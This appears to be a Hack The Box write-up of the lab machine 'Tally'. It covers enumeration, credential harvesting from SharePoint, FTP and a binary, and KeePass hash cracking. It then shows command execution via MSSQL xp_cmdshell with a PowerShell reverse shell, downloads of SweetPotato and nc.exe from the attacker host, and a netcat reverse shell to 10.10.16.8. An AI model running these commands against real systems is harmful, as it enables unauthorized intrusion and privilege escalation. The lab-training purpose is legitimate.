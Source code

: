 # [Tally](https://app.hackthebox.com/machines/tally)

```bash
nmap -p- --min-rate 10000 10.10.10.59 -Pn 
```

![Alt text](img/image.png)


After knowing open ports, let's do greater nmap scan.


```bash
nmap -A -sC -sV -p21,80,135,139,445,5985 10.10.10.59 -Pn
```


![Alt text](img/image-1.png)



While I browse this application, it returns like this.

![Alt text](img/image-2.png)


Let's do directory enumeration.

```bash
gobuster dir -u http://10.10.10.59/_layouts/15/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x aspx
```


After enumeration, I find a page via this [URL](http://10.10.10.59/shared%20documents/forms/allitems.aspx).


I find a file called 'ftp-details.docx'.

![Alt text](img/image-3.png)

I grab credentials from here.

hostname: tally
password: UTDRSCH53c"$6hys


Another thing 'username' which I need to find is from this [URL](http://10.10.10.59/SitePages/FinanceTeam.aspx)

username: ftp_user

Let's login into FTP.

I find `.kdbx` file on this location (User\Tim\Files\tim.kdbx).

![Alt text](img/image-4.png)


I download this file and try to crack via `keepass2john` command.

```bash
keepass2john tim.kdbx > hash.txt
#remove "tim:" string from beginning
hashcat -m 13400 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

Password: simplementeyo

After opening `keepass2` I can see entries.

![Alt text](img/image-5.png)



Let's enumerate SMB share via `smbmap` tool.

```bash
smbmap -H 10.10.10.59 -u 'Finance' -p 'Acc0unting'
```

![Alt text](img/image-6.png)


Let's use this credentials via `smbclient`.

Finance: Acc0unting


Let's access into '**ACCT**' share

```bash
smbclient -U '10.10.10.59\Finance' //10.10.10.59/ACCT
```


From this location (\zz_Migration\Binaries\New folder\) I grab a file called 'tester.exe' file.

![Alt text](img/image-7.png)


While I read this executable via `strings` command.

![Alt text](img/image-8.png)


I grab password from this executable.

sa: GWE3V65#6KFH93@4GWTG2G

That's credentials of `MSSQL`, let's use `mssqlclient.py` script of `Impacket`.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sa:GWE3V65#6KFH93@4GWTG2G@10.10.10.59
```

To run commands, we need to do first `enable_xp_cmdshell`, then run commands via `xp_cmdshell`.

![Alt text](img/image-9.png)


Let's generate Powershell reverse shell script fromt this [website](https://www.revshells.com/).

I select **base64 encoded version of this**.

![Alt text](img/image-10.png)


And I paste this value into MSSQL Shell via `xp_cmdshell {payload}`.

![Alt text](img/image-11.png)


I got reverse shell from port (1337).

![Alt text](img/image-12.png)


user.txt

![Alt text](img/image-13.png)


While I doing `whoami /priv` command for privilege escalation, I see that 'SeImpersonatePrivilege' is enabled.

![Alt text](img/image-14.png)


Due to '**SeImpersonatePrivilege**', I use exploit called [SweetPotato](https://github.com/CCob/SweetPotato).


Now, I open http server to upload `nc.exe` and `SweetPotato.exe` into target machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080
```

![Alt text](img/image-15.png)

Then, I download this binaries into target machine.

```bash
iwr 10.10.16.8:8080/SweetPotato.exe -outfile sp.exe
iwr 10.10.16.8:8080/nc.exe -outfile nc64.exe
```

![Alt text](img/image-16.png)


Let's use this exploit.

```bash
.\sp.exe -p "\programdata\nc64.exe" -a "-e powershell 10.10.16.8 1338"
```

![Alt text](img/image-17.png)


I got reverse shell from port (1338).

root.txt

![Alt text](img/image-18.png)